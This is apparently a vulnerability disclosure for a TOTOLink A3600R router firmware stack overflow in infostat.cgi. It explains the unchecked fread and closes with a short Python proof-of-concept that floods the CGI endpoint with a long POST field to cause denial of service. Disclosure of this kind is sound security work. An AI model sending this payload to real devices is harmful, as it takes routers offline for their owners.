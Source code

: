 Affect device: TOTOLink WiFi Router A3600R V4.1.2cu.5182_B20201102 (http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36) 

Vulnerability Type: Stack overflow 

Impact: Denial of Service(DoS) 

# Vulnerability description 
The stack overflow vulnerability is in the in the `fread` function in the `infostat.cgi`  

![](./img/1.png)
We can see that  `stdin` is obtained directly from the http request parameter .Then they will be spliced to stack by function fread without any security check,which causes stack overflow.

This vulnerability allows attackers to perform a Denial of Service(DoS)  via the `CONTENT_LENGTH` parameter by POST the page `/cgi-bin/infostat.cgi` with long Code 

# POC
```python
import requests
data = {'a':'a'*0x4000}
res = requests.post("http://11.11.11.2/cgi-bin/infostat.cgi", data=data)
print(res.content)
```
![](./img/2.png)